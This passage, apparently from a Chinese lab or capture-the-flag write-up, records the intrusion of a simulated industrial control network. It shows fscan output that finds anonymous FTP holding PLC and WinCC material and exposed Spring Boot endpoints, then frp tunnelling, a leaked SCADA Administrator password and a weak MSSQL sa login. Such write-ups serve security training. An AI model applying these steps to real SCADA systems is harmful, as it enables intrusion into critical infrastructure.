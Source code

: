 ```bash
[*]172.22.17.6
   [->]WIN-ENGINEER
   [->]172.22.17.6
[*] WebTitle http://172.22.17.213:8080 code:302 len:0      title:None 跳转url: http://172.22.17.213:8080/login;jsessionid=F27C36D7263AE95B6931636B7EE0CB1D
[*] WebTitle http://172.22.17.213:8080/login;jsessionid=F27C36D7263AE95B6931636B7EE0CB1D code:200 len:2936   title:火创能源监控画面管理平台
[+] ftp 172.22.17.6:21:anonymous 
   [->]Modbus
   [->]PLC
   [->]web.config
   [->]WinCC
   [->]内部软件
   [->]火创能源内部资料
[*] WebTitle http://172.22.17.6        code:200 len:661    title:172.22.17.6 - /
[+] PocScan http://172.22.17.213:8080 poc-yaml-spring-actuator-heapdump-file 
[+] PocScan http://172.22.17.213:8080 poc-yaml-springboot-env-unauth spring2
```

发现有可anonymous登录的ftp

也可以直接访问80端口

frp穿透出来

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250126142350-5m4femf.png?imageSlim)​

拿到相关机器账号密码

```bash
http://172.22.17.6/%E7%81%AB%E5%88%9B%E8%83%BD%E6%BA%90%E5%86%85%E9%83%A8%E8%B5%84%E6%96%99/SCADA.txt
```

```bash
WIN-SCADA: 172.22.26.xx
Username: Administrator
Password: IYnT3GyCiy3
```

frp扫一下172.22.26.0/24得到

```bash
./fscan -h 172.22.26.0/24

   ___                              _  
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <  
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.26.11    is alive
[*] Icmp alive hosts len is: 1
172.22.26.11:1433 open
172.22.26.11:139 open
172.22.26.11:135 open
172.22.26.11:80 open
172.22.26.11:445 open
[*] alive ports len is: 5
start vulscan
[*] NetBios 172.22.26.11    WORKGROUP\WIN-SCADA         
[+] mssql 172.22.26.11:1433:sa 123456
[*] NetInfo 
[*]172.22.26.11
   [->]WIN-SCADA
   [->]172.22.26.11
```